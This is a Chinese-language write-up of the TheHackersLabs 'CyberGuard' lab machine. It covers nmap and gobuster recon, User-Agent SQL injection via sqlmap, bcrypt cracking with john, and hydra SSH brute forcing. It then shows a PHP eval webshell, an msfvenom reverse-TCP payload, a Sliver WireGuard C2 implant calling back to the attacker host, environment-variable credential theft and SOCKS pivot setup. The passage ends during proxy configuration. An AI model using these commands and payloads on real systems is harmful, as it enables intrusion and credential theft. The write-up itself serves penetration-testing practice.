# TheHackerslabs - CyberGuard Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/18542  
> **文章ID**: 18542

---

# CyberGuard Writeup

> 靶机链接：<https://labs.thehackerslabs.com/machine/25> ； 难度：`experto` （专业）



大致用到的：`SQL`注入，`Sliver`，代理搭建，`MSF` , `MS17_010`

下载后一共有四台机子：第一台是做路由器/防火墙。其余三台内网主机。



拓扑图：



## Recon / 侦查

### PortScan / 端口扫描

使用`nmap` 目标主机进行端口扫描，探测主机

```
➜  CyberGuard nmap -sn 10.0.2.0/24                   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 21:11 CST
Nmap scan report for 10.0.2.1
Host is up (0.00072s latency).
MAC Address: 0A:00:27:00:00:11 (Unknown)
Nmap scan report for 10.0.2.10
Host is up (0.00047s latency).
MAC Address: 08:00:27:B3:85:B4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.20
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.21 seconds
```

本地扫描速率直接`10000` 即可

```
➜  CyberGuard nmap -sT -min-rate 10000 -p- 10.0.2.10
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 21:11 CST
Nmap scan report for 10.0.2.10
Host is up (0.0013s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:B3:85:B4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.54 seconds
```

扫描端口、系统的详细信息，可以看到输出结果是：`80`端口 `Nginx`，系统是 `freebsd:11.2`

```
➜  CyberGuard nmap -sT -A -p 80 10.0.2.10                                                       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 21:12 CST
Nmap scan report for 10.0.2.10
Host is up (0.00056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (application/octet-stream, text/plain; charset=UTF-8).
MAC Address: 08:00:27:B3:85:B4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): FreeBSD 11.X (92%)
OS CPE: cpe:/o:freebsd:freebsd:11.2
Aggressive OS guesses: FreeBSD 11.2-RELEASE (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms 10.0.2.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```

### 枚举

访问 `HTTP` 服务



使用 `gobuster` 进行目录爆破，但是这里扫描久了会被 `ban` 掉，所以就扫描了一点就不再继续了

```
➜  CyberGuard gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip -u http://10.0.2.10
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/index.php            (Status: 200) [Size: 1048]
/search               (Status: 200) [Size: 2046]
/admin                (Status: 302) [Size: 378] [--> http://10.0.2.10/admin/auth/login]
/up                   (Status: 200) [Size: 2130]
```

这个 `query` 和输出结果感觉有股熟悉的味，是在`Sqli-labs` 中看到过，特别相似

并且 `URL` 是 `xxxx/search?query=` ，不得不进行测试一下



`sqlmap` 跑一波，直接一步到位了，`--level` 不仅仅对 `query`参数进行测试，并且还对 `Cookie`、`User-Agent`和`Referer`头进行测试

```
sqlmap -r packet -batch --level 3 --risk 3
```

真跑出来了，不是在 `GET`参数中，而是在 `UA` 中存在注入点，所以指定 `level` 对结果影响会很大的



## SQL Injection / SQL 注入

使用 `sqlmap` 直接将所有数据全给 `DUMP` 出来

```
# 数据库名，当前用户
current database: 'cyberguard
current user: 'ian@localhost'

# 所有表
+------------------------+
| cache                  |
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blacklist_user_agents  |
| cache_locks            |
| failed_jobs            |
| job_batches            |
| jobs                   |
| migrations             |
| password_reset_tokens  |
| sessions               |
| users                  |
+------------------------+

# admin_user 表数据
+----+---------------+--------+--------------------------------------------------------------+----------+---------------------+---------------------+----------------+
| id | name          | avatar | password                                                     | username | created_at          | updated_at          | remember_token |
+----+---------------+--------+--------------------------------------------------------------+----------+---------------------+---------------------+----------------+
| 1  | Administrator | NULL   | $2y$12$fN2GC9IgrwHneBpWIY8WwevYshq/qkEhoE6XhU7ClZInAhbW2YltK | admin    | 2024-10-01 17:41:30 | 2024-10-09 02:31:19 | NULL           |
+----+---------------+--------+--------------------------------------------------------------+----------+---------------------+---------------------+----------------+

```

我们那都一串 HASH，`$2y$` 表示使用的是`bcrypt` \*\*\*\*算法

我们使用`john` 来爆破一下密码，不需要指定加密算法，并指定字典 `rockyou` ，如果使用 `hashcat` 破解则需要指定 `-m 3200`

```
➜  CyberGuard john --wordlist=/usr/share/wordlists/rockyou.txt hash       
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
killer           (?)     
1g 0:00:00:04 DONE (2025-07-27 21:48) 0.2415g/s 34.78p/s 34.78c/s 34.78C/s shadow..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

得到明文密码 `killer`

## 后台利用

来到网站后台尝试使用刚刚得到的密码进行登录

成功进入后台，开始寻找功能点



后台里面有个命令执行的功能（图中的 `shell`）

尝试执行命令测试，成功执行命令并回显



我们再拿 `/etc/passwd` 的信息，能知道 `ian` 用户是存在的

```
ian:x:1000:1000:ian,,,:/home/ian:/bin/bash
```

到这里可以使用 `hydra` 放在后台对其进行爆破，然后再在后台寻找能拿到 `shell` 的方法

```
hydra -l ian -P /usr/share/wordlists/rockyou.txt  -t 8 10.0.2.10 ssh
```

### 尝试 1 ❌

尝试反弹 `shell` ，这里使用 `nc` 和 `/bin/bash` 都无法弹出来，一直在加载

后台还有一个上传功能点，但是没找到上传的文件夹在哪



尝试使用 `find` 命令行来找到刚刚上传文件 `result.php` ，就能知道上船文件夹在哪了

```
find / -name 'result.php' 2>/dev/null
```

通过 `find` 命令能找到存放在 `/var/www/cyberguard/storage/app/private/result.php` ，所以上传目录是在 `/var/www/cyberguard/storage/app/private/`



再看一下当前目录在哪，在 `/var/www/cyberguard/public`



因为不能直接用 `/bin/bash` 和 `nc` 来弹，所以这里尝试直接写入`webshell`

```
echo '<?php eval($_POST["x"]);phpinfo();?>' > test.php
```

可以执行命令，这里可以上蚁剑，但是上了之后没办法弹 `Shell` 也没意义



但结果还是无法进行反弹 `shell` ，被阻止

### 尝试 2 ❌

尝试使用 `MSF` （全称 `metasploit`）来拿到 `shell`

首先使用生成马子，生成格式二进制文件 `elf` ，并且指定 payload `/var/www/cyberguard/storage/app/private/`

```
➜  CyberGuard msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.2.20 LPORT=4444 -f elf -o sunset
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: sunset
```

上传后在命令执行窗口执行如下命令，让二进制文件 `sunset` 拥有可执行权限，并且运行二进制文件 `sunset`

```
chmod +x /var/www/cyberguard/storage/app/private/sunset
/var/www/cyberguard/storage/app/private/sunset
```

但是 `MSF` 中没有将 `Shell` 弹回来

这里还尝试很多种`payload` ，例如`cmd/linux/http/x64/meterpreter_reverse_http` 等

但是结果和在 `WebShell` 反弹一样，被阻止了

大概是防火墙将出口流量都阻止了，但是不可能全部都阻止，我们再寻找别的方法

### 尝试 3 ✅

这里尝试使用 `sliver` ，官网介绍：Sliver 是一个开源的跨平台对手模拟/红队框架，可供各种规模的组织用于执行安全测试。Sliver 的植入程序支持基于相互 TLS (mTLS)、WireGuard、HTTP(S) 和 DNS 的 C2 通信，并使用每个二进制非对称加密密钥进行动态编译。

> <https://github.com/BishopFox/sliver>

`sliver` 有很高的隐蔽性和免杀性能，并且也支持其他的协议，例如 `WireGuard`

启动 `sliver`

```
➜  CyberGuard sliver
Connecting to localhost:31337 ...

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain persist
[*] Server v1.5.43 - e116a5ec3d26e8582348a29cfd251f915ce4a405
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >  
```

使用 `WireGuard` 协议生成植入物，指定系统 `Linux`，因为默认是 `Windows` ，生成 `x64`架构的二进制文件

最后生成出来文件 `FORMIDABLE_FLOOR`

```
sliver > generate --wg 10.0.2.20 -o linux -a amd64 -f binary

[*] Generated unique ip for wg peer tun interface: 100.64.0.2
[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m12s
[*] Implant saved to /root/Desktop/TheHackersLabs/CyberGuard/FORMIDABLE_FLOOR

sliver > wg

[*] Starting Wireguard listener ...
[*] Successfully started job #1
```

上传到目标主机并运行，操作和上边的一样

```
chmod +x /var/www/cyberguard/storage/app/private/FORMIDABLE_FLOOR
/var/www/cyberguard/storage/app/private/FORMIDABLE_FLOOR
```

然后可以在 `sliver` 服务端中看到客户端连接上去了



输入 `info` 查看信息，可以看到走的是 `53` 端口，也就是 `DNS`

```
sliver (FORMIDABLE_FLOOR) > info 

        Session ID: 160113c3-b76b-4b38-a5eb-a03335a7dbb8
              Name: FORMIDABLE_FLOOR
          Hostname: TheHackersLabs-2-Cyberguard
              UUID: ed3dcaa8-d130-48be-8973-73101c3c3c31
          Username: www-data
               UID: 33
               GID: 33
               PID: 1053
                OS: linux
           Version: Linux TheHackersLabs-2-Cyberguard 6.1.0-25-amd64
            Locale: C
              Arch: amd64
         Active C2: wg://10.0.2.20:53
    Remote Address: 100.64.0.3:65311
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Mon Jul 28 12:49:33 CST 2025 (40m46s ago)
      Last Checkin: Mon Jul 28 13:28:31 CST 2025 (1m48s ago)
```

`sliver` 的操作和 `MSF` 差不多，输入 `shell` 可以进入 `shell` ，输入 `help`是帮助



## 内网渗透

### 信息收集

拿到 `shell`后，我们首先第一时间查看敏感文件，例如数据库配置文件 `databases.php`

```
'default' => [
            'url' => env('REDIS_URL'),
            'host' => env('REDIS_HOST', '127.0.0.1'),
            'username' => env('REDIS_USERNAME'),
            'password' => env('REDIS_PASSWORD'),
            'port' => env('REDIS_PORT', '6379'),
            'database' => env('REDIS_DB', '0'),
        ],
```

发现数据库凭据存放在环境变量中，我们查看一下当前环境变量

```
// env
DB_PASSWORD=ZqBHR4MZ<f*+bv(J
REDIS_HOST=127.0.0.1
DB_HOST=127.0.0.1
QUEUE_CONNECTION=database
```

得到一串密码 `ZqBHR4MZ<f*+bv(J`

我们通过密码碰撞，测试后我们知道密码是属于 `ian` 账户的

```
[*] Started remote shell with pid 1069

www-data@TheHackersLabs-2-Cyberguard:/var/www/cyberguard/config$ su ian
Password: 
ian@TheHackersLabs-2-Cyberguard:/var/www/cyberguard/config$ 
```

查看正在监听的端口，查看是否存在仅在本地开启的服务，结果显示仅有一个 `MYSQL`

```
ian@TheHackersLabs-2-Cyberguard:~$ ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                             
udp   UNCONN 0      0            0.0.0.0:59645      0.0.0.0:*                                                       
udp   UNCONN 0      0            0.0.0.0:51236      0.0.0.0:*    users:(("ss",pid=1098,fd=7),("bash",pid=1082,fd=7))
udp   UNCONN 0      0               [::]:51236         [::]:*    users:(("ss",pid=1098,fd=3),("bash",pid=1082,fd=3))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*                                                       
tcp   LISTEN 0      80         127.0.0.1:3306       0.0.0.0:*                                                       
tcp   LISTEN 0      128             [::]:22            [::]:*                                                       
tcp   LISTEN 0      511                *:8080             *:*  
```

查看 `ip` ，得到内网网段 `10.20.30.0/24` ，即将开始对内网开始渗透

```
www-data@TheHackersLabs-2-Cyberguard:/var/www/cyberguard/config$ ip add
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:f1:07:77 brd ff:ff:ff:ff:ff:ff
    inet 10.20.30.11/24 brd 10.20.30.255 scope global enp0s3
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fef1:777/64 scope link 
       valid_lft forever preferred_lft forever
```

### 搭建代理

方便渗透内网主机这里需要进行代理搭建

`sliver` 中有搭建代理的功能，所以直接使用 `sliver` 搭建代理

文档链接：<https://sliver.sh/docs?name=Reverse+SOCKS>

因为我们使用的协议是 `WireGuard` ，所以这里使用 `WireGuard SOCKS5`

```
sliver (FORMIDABLE_FLOOR) > info 

        Session ID: 160113c3-b76b-4b38-a5eb-a03335a7dbb8
              Name: FORMIDABLE_FLOOR
          Hostname: TheHackersLabs-2-Cyberguard
              UUID: ed3dcaa8-d130-48be-8973-73101c3c3c31
          Username: www-data
               UID: 33
               GID: 33
               PID: 1053
                OS: linux
           Version: Linux TheHackersLabs-2-Cyberguard 6.1.0-25-amd64
            Locale: C
              Arch: amd64
         Active C2: wg://10.0.2.20:53
    Remote Address: 100.64.0.3:65311
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Mon Jul 28 12:49:33 CST 2025 (40m46s ago)
      Last Checkin: Mon Jul 28 13:28:31 CST 2025 (1m48s ago)
```

输入 `wg-config` 创建 `WireGuard` 客户端配置，`Endpoint` 是我们需要手动配置的，写上 `info` 信息中的 `Active C2` 即可

```
sliver (FORMIDABLE_FLOOR) > wg-config

[*] New client config:[Interface]
Address = 100.64.0.6/16
ListenPort = 51902
PrivateKey = MLVcslgYICxAUJMnhPF/h6LAiqOfjh1vF38pZdOt20w=
MTU = 1420

[Peer]
PublicKey = q36gtpUVlt9b9vCe4ZuM8+tU7zrDmN9SCAuSQ2jTYgQ=
AllowedIPs = 100.64.0.0/16
Endpoint = 10.0.2.20:53
```

首先将上边配置保存到 `/etc/wireguard/wgsocks.conf` 中

```
➜  CyberGuard vim wgsocks.conf
```

然后使用 `wg-quick` 进行连接

```
➜  CyberGuard wg-quick up wgsocks            
[#] ip link add wgsocks type wireguard
[#] wg setconf wgsocks /dev/fd/63
[#] ip -4 address add 100.64.0.6/16 dev wgsocks
[#] ip link set mtu 1420 up dev wgsocks
```

连接完毕后，再在 `sliver` 中运行 `wg-socks` ，开启 `socks` 服务

```
sliver (FORMIDABLE_FLOOR) > wg-socks start

[*] Started SOCKS server on 100.64.0.3:3090
```

开启后，编辑 `/etc/proxychains4.conf` 文件，配置 `socks`代理信息

